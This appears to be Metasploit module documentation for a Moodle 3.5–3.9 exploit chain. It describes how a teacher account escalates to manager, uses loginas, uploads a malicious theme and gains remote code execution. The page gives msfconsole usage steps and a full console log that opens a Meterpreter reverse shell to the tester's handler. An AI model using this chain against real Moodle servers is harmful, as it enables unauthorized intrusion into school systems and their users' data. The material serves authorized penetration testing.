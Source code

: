 ## Vulnerable Application

Moodle version 3.9, 3.8 to 3.8.3, 3.7 to 3.7.6, 3.5 to 3.5.12 and earlier unsupported versions
allow for a teacher to exploit chain to RCE.  A bug in the privileges system allows a teacher
to add themselves as a manager to their own class. They can then add any other users, and thus
look to add someone with manager privileges on the system (not just the class).  After
adding a system manager, a 'loginas' feature is used to access their account.  Next the system
is reconfigured to allow for all users to install an addon/plugin.  Then a malicious theme
is uploaded and creates an RCE.

If all of that is a success, we revert permissions for managers to system default and
remove our malicoius theme.  Manual cleanup to remove students from the class is required.

This module was tested against Moodle version 3.9

### Install

Moodle provides a step by step guide to install their software.  However you'll want to use
`3.9.0` isntead of `3.11.0`.
[here](https://docs.moodle.org/311/en/Step-by-step_Installation_Guide_for_Ubuntu)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploits/multi/http/moodle_teacher_enrollment_priv_esc_to_rce`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### MAXUSERS

The amount of users to add to the class in hopes of finding a manager. Defaults to `100`.

### Passowrd

Password of a teacher.

### Username

Username of a teacher.

## Scenarios

### Moodle 3.9.0 on Ubuntu 20.04

```
resource (moodle_privesc.rb)> use exploit/multi/http/moodle_teacher_enrollment_priv_esc_to_rce
[*] Using configured payload php/meterpreter/reverse_tcp
resource (moodle_privesc.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (moodle_privesc.rb)> set targeturi /moodle-3.9.0/
targeturi => /moodle-3.9.0/
resource (moodle_privesc.rb)> set username teacher
username => teacher
resource (moodle_privesc.rb)> set password Teacherteacher1!
password => Teacherteacher1!
resource (moodle_privesc.rb)> set lhost eth0
lhost => eth0
resource (moodle_privesc.rb)> set MAXUSERS 10
MAXUSERS => 10
resource (moodle_privesc.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Moodle version 3.9 detected
[*] Authenticating as user: teacher
[*] Retrieving user info
[+] User ID: 4
[+] Course ID: 2
[+] Sessionkey: R1lSAKDT73
[*] Retrieving course enrollment id
[+] Enrol ID: 1
[*] Attempting to enrolin in class as manager (priv esc)
[+] Successfully enrolled
[*] Attempting to find and add a manager to class
[*] Attempting user: 2
[+] Successfully enrolled
[*] Attempting user: 3
[+] Successfully enrolled
[*] Attempting user: 4
[+] Successfully enrolled
[*] Attempting user: 5
[+] Successfully enrolled
[*] Attempting user: 6
[-] Unsuccessful
[*] Attempting user: 7
[-] Unsuccessful
[*] Attempting user: 8
[-] Unsuccessful
[*] Attempting user: 9
[-] Unsuccessful
[*] Retrieving course context id
[+] Context ID: 28
[+] Found manager user IDs: ["5", "4"]
[*] Attempting loginas for user id: 5
[*] Logged in as: manager manager
[+] Looks like a potentially good manager account!
[*] Attempting via new session key: gUocfkXDpe
[*] Checking if permissions were set successfully
[+] Manager roll full permissioned, attempting to upload shell
[*] Creating plugin named: mbdzduot with poisoned header: PIYB
[*] Uploading addon
[+] Upload Successful.  Integrating addon
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56418) at 2021-09-04 13:21:51 -0400
[*] Uninstalling plugin
[*] Resetting permissions

meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
```
